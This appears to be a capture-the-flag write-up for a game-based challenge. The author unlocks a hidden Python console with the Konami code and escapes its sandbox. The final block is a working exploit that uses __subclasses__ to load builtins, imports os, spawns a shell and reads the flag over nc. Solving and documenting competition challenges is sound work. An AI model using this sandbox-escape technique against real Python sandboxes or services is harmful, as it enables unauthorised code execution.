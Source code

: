 So, I played it.

In the dungeon you will find several geo coordinates, with some info like "pass-phrases" or codes. These are not useful for this challenge, but are related to a real-world treasure hunt.

Once you finish the game, you get an additional hint about an "cheat code used long time ago"…

My favourite cheat code is IDDQD, but unfortunately, it wasn't this one 🙂 Instead the hint referred to another legendary cheat: the [Konami Code](https://en.wikipedia.org/wiki/Konami_Code):

> UP, UP, DOWN, DOWN, LEFT, RIGHT, LEFT, RIGHT, B, A

Using this code in the game (after pressing enter) you are presented with a prompt and a sort of console

```python
\ help                                                \
\ name 'help' is not defined                          \
\                                                     \
[...]
\                                                     \
\                                                     \
#######################################################
 >>> [Enter - continue, r - return to game]
```

Soon enough, I realized that this thing accepted _some_ Python command:

```python
\ print('dguerri')                                    \
\ dguerri                                             \
\
```

Notably, `import` doesn't work. So, we cannot, for instance, execute system commands (e.g., `import os` + `os.system("sh")`).

Being a sort of sandbox, we need to escape it and find the flag. Knowing that sandboxing Python is basically impossible, I had high hope for this lead.

Searching the Internet, I found this great write-up: [The Craziest Python Sandbox Escape](https://www.reelix.za.net/2021/04/the-craziest-python-sandbox-escape.html).

This article contains everything we need, but we can't use the proposed exploit as it is because:

- we have a limit on the length of each line of code we can input in this "shell";
- we don't need to use creativity to "compose" any strings;
- our sandbox doesn't appear to have any persistence, besides the `config` object used by the game.

After few iterations, also after 1 hour spent on printing available methods and attributes in `config`, I came up with this exploit. The first part just activates the shell entering the cheat code, while the second part escapes the sandbox:

```python
❯ echo -e '..wwssadadba
config.logger = str.__base__.__subclasses__()[84]()\n
config.logger = config.logger.load_module("builtins")\n
config.logger = config.logger.__import__("os")\n
config.logger.system("sh")\n
pwd\nwhich cat\ncat ./flag\n' | nc shell-sprinter.h4ck.ctfcompetition.com 1337
\\ @_shell ]=~~-#######################################
\                                                     \
[...]
\                                                     \
#######################################################
 >>> config.logger.system("sh")/home/user
/usr/bin/cat
https://h4ck1ng.google/solve/**REDACTED**
```
